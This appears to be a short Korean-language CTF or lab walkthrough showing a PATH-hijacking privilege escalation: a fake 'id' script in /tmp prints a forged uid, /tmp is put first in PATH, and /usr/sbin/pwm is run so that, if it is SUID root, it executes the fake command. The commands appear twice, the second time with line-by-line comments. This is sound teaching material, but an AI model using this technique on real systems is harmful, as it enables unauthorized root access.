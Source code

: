일반적으로 첫 사용자 ID 로 부여되는 사용자 및 그룹 ID

```bash
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

#!/bin/bash

# /tmp 디렉토리로 이동 (모든 사용자가 쓰기 가능한 임시 폴더)

cd /tmp

# 가짜 id 명령어 스크립트 생성 시작

# 첫 줄: Bash 스크립트임을 명시

echo '#!/bin/bash' > id

# 두 번째 줄: 실제 id 명령처럼 보이는 출력 삽입

echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id

# 생성한 스크립트를 실행 가능하게 설정

chmod +x id

# 환경변수 PATH의 가장 앞에 /tmp 추가

# -> 시스템이 명령어를 찾을 때 /tmp부터 먼저 찾게 됨

export PATH=/tmp:$PATH

# pwm 실행 (이 바이너리가 내부에서 'id'를 실행할 경우 우리가 만든 /tmp/id 실행됨)

# 이로써 출력 결과를 조작할 수 있으며, pwm이 SUID 루트일 경우 권한 상승 가능성 존재

/usr/sbin/pwm

# /usr/sbin/pwm
